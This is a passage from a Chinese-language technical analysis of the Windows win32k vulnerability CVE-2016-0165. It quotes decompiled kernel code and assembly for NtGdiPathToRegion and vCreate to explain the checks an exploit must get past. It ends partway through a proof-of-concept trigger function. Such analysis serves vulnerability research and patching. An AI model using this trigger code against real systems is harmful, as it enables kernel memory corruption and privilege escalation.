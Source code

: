   
  
第二处限制是调用PathToRegion后，会调用win32k中的NtGdiPathToRegion函数，在该函数中，要注意和不同y值的点不能过大，否则会导致内存资源不足，代码如下：  
```
  if ( v8 )
  {
    // 省略成功调用的代码
  }
  else
  {
    // 内存资源不足，GetLastError将会得到8
    EngSetLastError(8);
    v3 = dcObj;
    *(_DWORD *)(v3 + 0x70) &= 0xFFFFFFFE;
    *(_DWORD *)(v3 + 0x6C) = 0;
  }
```  
  
  
  
第三处限制是在vCreate函数中，在该函数中会将不同y值大小的点与0x20相乘并加上0x1F8，最终的值与0x7FFFFFFF进行判断，如果大于该值则会跳转，而不调用vConstructGET函数。这部分就是在上述对vCreate函数分析的时候，调用vConstructGET函数前的if判断语句中省略的部分。  
```
.text:BF874085                 push    0
.text:BF874087                 push    20h
.text:BF874089                 push    edx
.text:BF87408A                 push    eax            // 不同y值的点的个数
.text:BF87408B                 call    __allmul       // 将个数乘以0x20
.text:BF874090                 mov     esi, eax       
.text:BF874092                 add     esi, 1F8h      // 个数乘以0x20以后，在加上0x1F8
.text:BF874098                 adc     edx, 0
.text:BF87409B                 mov     [ebp+var_C], edx
.text:BF87409E                 mov     edi, 7FFFFFFFh        ; 将0x7FFFFFFF赋值给edi
.text:BF8740A3                 js      short loc_BF8740B3
.text:BF8740A5                 jg      loc_BF87416B
.text:BF8740AB                 cmp     esi, edi              ; 判断esi是否大于edi，大于则跳转
.text:BF8740AD                 ja      loc_BF87416B          ; 如果跳转，则不会调用vConstructGET函数
```  
  
  
  
最终，绕过以上三处限制而写出的POC代码如下：  
```
BOOL POC_CVE_2016_0165()
{
    BOOL bRet = TRUE;
    HDC hdc = NULL;
    CONST DWORD dwMaxCount = 0x6666665, dwMaxValue = 0x04E2000, dwCount = 0x100;
    DWORD i = 0;
    PPOINT pPoint = NULL;
 
    pPoint = (PPOINT)malloc(dwMaxCount * sizeof(POINT));
 
    if (!pPoint)
    {
        ShowError("malloc", GetLastError());
        bRet = FALSE;
        goto exit;
    }
 
    ZeroMemory(pPoint, dwMaxCount * sizeof(POINT));
     
    for (i = 0; i < dwCount; i++)
    {
        pPoint[i].y = i;
    }
 
    hdc = GetDC(NULL);
```
